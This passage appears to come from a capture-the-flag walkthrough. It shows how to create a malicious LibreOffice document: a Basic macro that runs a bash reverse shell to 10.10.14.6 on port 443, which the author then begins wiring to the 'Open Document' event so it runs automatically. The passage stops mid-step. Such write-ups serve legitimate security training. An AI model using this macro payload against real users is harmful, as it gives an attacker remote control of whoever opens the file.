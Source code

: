 This pops a dialog asking for a name, and then opens the macro editor:

![](/img/image-20231024212258047.png)

I'll add a simple reverse shell:



    Sub Main

            shell("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'")

    End Sub



![](/img/image-20231026065556394.png)

To get this to run automatically on opening, I'll close the Macro editor
and in the document window go to "Tools" \> "Customize". In the window
that opens, I'll go to the "Events" tab, click on "Open Document" and
then "Macro...":
